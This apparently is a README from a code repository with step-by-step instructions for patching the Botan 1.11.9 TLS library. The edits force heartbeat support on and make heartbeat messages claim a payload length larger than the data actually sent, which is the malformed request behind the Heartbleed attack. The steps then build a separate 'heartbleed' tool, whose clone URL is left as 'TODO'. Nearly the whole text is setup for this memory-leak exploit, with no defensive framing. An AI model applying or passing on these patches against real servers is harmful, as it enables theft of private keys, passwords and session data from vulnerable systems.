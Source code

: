 # Botan
- tested version: 1.11.9
- download here: http://files.randombit.net/botan/Botan-1.11.9.tgz
- tar xfvz Botan-1.11.9.tgz
- cd Botan-1.11.9/
- apply the following changes (no patchfiles sorry)
  - src/lib/tls/tls_policy.h:81 replace with:
    > virtual bool negotiate_heartbeat_support() const { return true; }
  - src/lib/tls/tls_heartbeats.h add a new private member:
    > size_t m_payload_len;
  - src/lib/tls/tls_heartbeats.cpp: ADD to constructor of 'Heartbeat_Message'
    > m_payload_len(payload_len)
  - src/lib/tls/tls_heartbeats.cpp: REMOVE the initialization of m_payload in the constructor of 'Heartbeat_Message'
    > m_payload(payload, payload + payload_len)
  - replace
    > send_buf[1] = get_byte<u16bit>(0, m_payload.size());
    > send_buf[2] = get_byte<u16bit>(1, m_payload.size());
    with
    > send_buf[1] = get_byte<u16bit>(0, m_payload_len);
    > send_buf[2] = get_byte<u16bit>(1, m_payload_len);
- ./configure --prefix=/your/install/prefix/here (in my case '/opt/heartbleed')
- make
- make install
- git clone TODO
- mv heartbleed heartblead_src
- mkdir heartbleed
- cd heartbleed
- cmake ../heartbleed_src
- make
